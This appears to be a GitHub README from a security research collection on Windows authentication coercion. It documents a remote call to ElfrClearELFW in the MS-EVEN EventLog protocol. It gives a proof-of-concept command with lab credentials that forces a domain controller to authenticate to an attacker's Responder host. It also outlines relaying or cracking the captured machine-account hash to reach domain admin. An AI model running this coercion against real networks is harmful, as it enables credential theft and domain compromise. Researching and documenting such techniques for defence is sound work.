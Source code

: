 # MS-EVEN - Remote call to ElfrClearELFW (opnum 0)

## Summary

 - **Protocol**: [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)

 - **Protocol UUID**: 82273fdc-e32a-18c3-3f78-827929dc23ea

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\eventlog`

 - **Function name**: [`ElfrClearELFW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/9b7a5f23-0269-4ed7-85ad-a7087af66b44)

 - **Function operation number**: `0`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\eventlog` and bind to the desired [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol (with uuid `82273fdc-e32a-18c3-3f78-827929dc23ea` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\eventlog` This pipe is connected to the protocol [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) and allows to call RPC functions of this protocol. We will then call the remote [`ElfrClearELFW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/9b7a5f23-0269-4ed7-85ad-a7087af66b44) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ElfrClearELFW('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS ElfrClearELFW(
   [in] IELF_HANDLE LogHandle,
   [in, unique] PRPC_UNICODE_STRING BackupFileName
 );
```

## References

 - Documentation of protocol [MS-EVEN]: EventLog Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f

 - Documentation of function `ElfrClearELFW`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/9b7a5f23-0269-4ed7-85ad-a7087af66b44